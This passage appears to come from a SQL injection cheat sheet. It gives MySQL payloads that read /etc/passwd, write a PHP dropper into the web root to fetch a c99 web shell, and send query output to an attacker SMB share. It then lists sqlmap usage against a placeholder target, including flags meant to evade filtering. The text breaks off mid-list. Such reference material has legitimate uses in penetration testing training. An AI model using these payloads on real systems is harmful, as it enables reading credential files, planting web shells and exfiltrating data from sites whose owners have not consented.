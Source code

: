- **Functions**
  
  - *MySQL*:
    - Reading Files:

    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```

    - Writing Files: INTO OUTFILE/DUMPFILE

    ```sql
    SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'
    ```

    And then access <http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt>

- **OOB**

  - *MySQL*:
    - SMB:

    ```sql
    ' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt
    ```

##### Tools

1) SQLmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```bash
python sqlmap.py -u 'http://victil.com/page.php?id=5'
```

- **-u**: Target URL
- **-r**: Load HTTP request from a file
  &rarr;
- **--crawl**: Crawl the website starting from the target URL
- **--forms**: Parse and test forms on target URL
- **--dbms**: Specify the database behind

Bypassing commands:

- **--referer**:  Bypass technique
- **--random-agent**: Use randomly selected HTTP User-Agent header value

Detection commands:

- **--risk**: Risk of tests to perform (1-3, default 1)
  - **1**: Default
  - **2**: Adds heavy query time-based SQL injections
  - **3**: Adds OR-based SQL injection tests.
- **--level**: Level of tests to perform (1-5, default 1)
  - **1**: Limited number of tests (requests) are performed
  - **2**: HTTP Cookie header values are tested
  - **3**: HTTP User-Agent/Referer headers are tested
  - **4**:
  - **5**:

